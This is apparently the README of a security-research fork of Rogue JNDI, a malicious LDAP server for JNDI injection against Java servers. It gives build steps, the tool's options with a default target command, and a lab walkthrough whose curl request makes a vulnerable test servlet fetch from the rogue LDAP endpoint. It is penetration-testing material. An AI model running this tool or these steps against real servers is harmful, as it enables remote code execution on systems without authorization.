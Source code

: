 # ROGUE JNDI NG
<img src="resources/logo.webp" alt="A bug sitting on top of a Stormtrooper helmet" height="640" width="640" style="border-radius: 14%; overflow: hidden;">

A modern fork of [Rogue JNDI](https://github.com/artsploit/rogue-jndi), which is "a malicious LDAP server for JNDI injection attacks".

## Description
Rogue JNDI is a great tool in the realm of JNDI exploitation. Our fork adds many features in order to keep it relevant for modern Java environments.

You can read about the full extent of our improvements in our [blog post](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/), but here's a summary:
+ Support for Tomcat version >=10
+ Support for Java version >= 15
+ Users can provide whole script files instead of single OS commands
+ Endpoint for serving generic deserialization payloads
+ New endpoint for exploiting H2 
+ New endpoint for exploiting HSQLDB
+ The usage of [Testcontainers](https://github.com/testcontainers/testcontainers-java) for integration tests (also useful for manual testing, e.g. custom scripting payloads)

> [!NOTE]
> For a general overview, please refer to the original [README](https://github.com/artsploit/rogue-jndi/blob/master/README.md)

## Building
The project uses Maven and can be build with something like:
```shell
mvn clean package
```
This creates a `/target` folder where the `RogueJNDI-X.X.X.jar` file resides. 

## Usage
After building, you can run the following command to see all the options:
```
$ java -jar target/RogueJndi-1.1.jar -h
        __________ ________    ________ ____ ______________      ____._______  ________  .___   _______    ________ 
        \______   \\_____  \  /  _____/|    |   \_   _____/     |    |\      \ \______ \ |   |  \      \  /  _____/ 
         |       _/ /   |   \/   \  ___|    |   /|    __)_      |    |/   |   \ |    |  \|   |  /   |   \/   \  ___ 
         |    |   \/    |    \    \_\  \    |  / |        \ /\__|    /    |    \|    `   \   | /    |    \    \_\  \
         |____|_  /\_______  /\______  /______/ /_______  / \________\____|__  /_______  /___| \____|__  /\______  /
                \/         \/        \/                 \/                   \/        \/              \/        \/


Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command          Command to execute on the target server (default: 
                           touch /usr/local/tomcat/temp/pwn.txt)
    -n, --hostname         Local HTTP server hostname (required for remote 
                           classloading and websphere payloads) (default: 
                           127.0.0.1) 
    -l, --ldapPort         Ldap bind port (default: 1389)
    -p, --httpPort         Http bind port (default: 8000)
    --wsdl                 [websphere1 payload option] WSDL file with XXE 
                           payload (default: /list.wsdl)
    --localjar             [websphere2 payload option] Local jar file to load 
                           (this file should be located on the remote server) 
                           (default: 
                           ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2                   [H2 database init script file (default: /h2)
    --js-payload-path      [Tomcat Nashorn payload option] Path to a .js file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --jshell-payload-path  [Tomcat JShell payload option] Path to a .java file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --groovy-payload-path  [Groovy payload option] Path to a .groovy file 
                           containing the payload served by the Groovy 
                           controller, overwrites the -c option (default: 
                           <empty string>)
    --generic-payload-path [Generic controller option] Path to a file 
                           containing a serialized object served by the 
                           Generic controller, overwrites the -c option 
                           (default: <empty string>)
    --jdbc-url             [HSQLDB controller option] JDBC URL pointing to an 
                           HSQL database (default: <empty string>)
    -h, --help             Show this help
```

## Example usage with custom JShell script.
First, start the test container:
```shell
docker run -it -p 8080:8080 ghcr.io/thegebirge/jndi-outcast/tomcat-10-jshell:latest
```

After cloning and building the project, start the server:
```shell
java -jar target/RogueJndi-1.1.jar --jshell-payload-path "/path/to/cloned/repo/rogue-jndi-ng/src/main/resources/payload.java"
```

Now you only need to make a request to the vulnerable servlet inside the container:

```shell
curl "http://localhost:8080/tomcat-10-jshell-1.0-SNAPSHOT/lookup?resource=ldap://host.docker.internal:1389/o=tomcat10-jshell"
```

## Demo
This demo uses our example JShell payload (`/src/main/resources/payload.java`):

https://github.com/user-attachments/assets/ca45c2e8-7aec-4530-bb47-db45306d6938


## Resources and Acknowledgements
+ Michael Stepankin for creating the original Rogue JNDI
+ His article about JNDI exploitation:
  https://www.veracode.com/blog/research/exploiting-jndi-injections-java
+ BlackHat talk of Alvaro Muñoz and Oleksandr Mirosh:
  https://www.youtube.com/watch?v=Y8a5nB-vy78
+ Their BlackHat paper:
  https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
+ Article that includes a rough timeline of JDNI vulnerabilities by Moritz Bechler:
  https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection
+ Our previous article about Java 17 deserialization:
  https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl
